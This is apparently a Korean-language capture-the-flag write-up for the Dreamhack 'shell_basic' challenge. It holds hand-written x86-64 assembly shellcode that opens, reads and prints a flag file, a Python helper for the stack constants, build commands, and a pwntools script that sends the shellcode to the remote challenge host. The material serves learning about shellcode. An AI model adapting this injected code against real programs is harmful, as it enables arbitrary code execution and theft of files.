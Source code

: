 #system-hacking 
# Payload
- 어셈블리 직접 작성한 코드
```nasm
; 410.asm

section .text
global _start
_start:
    push 0x0                        ; NULL byte
    mov rax, 0x676e6f6f6f6f6f6f     ; "oooooong"
    push rax
    mov rax, 0x6c5f73695f656d61     ; "ame_is_l"
    push rax
    mov rax, 0x6e5f67616c662f63     ; "c/flag_n"
    push rax
    mov rax, 0x697361625f6c6c65     ; "ell_basi"
    push rax
    mov rax, 0x68732f656d6f682f     ; "/home/sh"
    push rax
    mov rdi, rsp    ; rdi = "/home/shell_basic/flag_name_is_loooooong"
    xor rsi, rsi    ; rsi = 0   ; RD_ONLY
    xor rdx, rdx    ; rdx = 0
    mov rax, 2      ; rax = 2   ; syscall_open
    syscall         ; open("/home/shell_basic/flag_name_is_loooooong", RD_ONLY, NULL)
    
    mov rdi, rax    ; rdi = fd
    mov rsi, rsp
    sub rsi, 0x30   ; rsi = rsp-0x30    ; buf
    mov rdx, 0x30   ; rdx = 0x30        ; len
    mov rax, 0x0    ; rax = 0           ; syscall_read
    syscall         ; read(fd, buf, 0x30)

    mov rdi, 1      ; rdi = 1   ; fd = stdout
    mov rax, 0x1    ; rax = 1   ; syscall_write
    syscall         ; write(fd, buf, 0x30)

    xor rdi, rdi    
    mov rax, 0x3c
    syscall
```
- `int fd = open("/home/shell_basic/flag_name_is_loooooong", O_RDONLY, NULL)`를 실행하는 Assembly 코드를 작성한다.
- `"/home/shell_basic/flag_name_is_loooooong"`은 총 40바이트이고, 64비트 아키텍처이기 때문에 8바이트씩 push 5회로 스택에 값을 채우면 될 것으로 생각되나, 그렇지 않다.
- C 문자열의 끝에는 항상 NULL이 있어야 하기 때문에, 41바이트를 전달해야 한다. `\x00`
- 끝 문자열부터 스택에 넣어야 한다. 스택은 아래로 자라기 때문에, 맨 나중에 넣어야 순서대로 쭉 읽을 때 막힘이 없다.
- push해야 할 값들은 python으로 간단하게 계산 가능하다.
```python
>>> def f(msg):
...     return hex(int.from_bytes(msg.encode(), "little"))
...
>>> f("oooooong")
'0x676e6f6f6f6f6f6f'
>>> f("ame_is_l")
'0x6c5f73695f656d61'
>>> f("c/flag_n")
'0x6e5f67616c662f63'
>>> f("ell_basi")
'0x697361625f6c6c65'
>>> f("/home/sh")
'0x68732f656d6f682f'
```
- 나머지 과정은 크게 다르지 않다.
- 만들어진 어셈블리를 바이트코드로 만드는 과정은 다음과 같다.
```shell
nasm -f elf64 401.asm
objcopy --dump-section .text=410.bin 410.o
xxd 410.bin
cat 410.bin | ./shell_basic
```
# shellcraft 사용하기
- Python에서 pwntools의 shellcraft를 사용하면 open, read, write의 호출 과정을 직접 셸코드화하여 생성해주어 셸코드를 만들기 편리하다. 해당 바이너리가 amd64 아키텍처를 사용하기 때문에 `context.arch = "amd64"`를 지정해 주어야 함에 유의해야 한다.
```python
from pwn import *

# p = process("./shell_basic")
p = remote("host8.dreamhack.games", 19606)
context.arch = "amd64"

dir = "/home/shell_basic/flag_name_is_loooooong"

shellcode = shellcraft.open(dir)
shellcode += shellcraft.read('rax', 'rsp', 0x30)
shellcode += shellcraft.write(1, 'rsp', 0x30)

print(asm(shellcode))

p.sendlineafter(b"shellcode: ", asm(shellcode))
p.interactive()
```
![[Pasted image 20251009020932.png]]
- 0x30 = 48바이트를 출력하기 때문에 스택 뒤의 쓰레기값까지 출력하는 것을 알 수 있다.
- 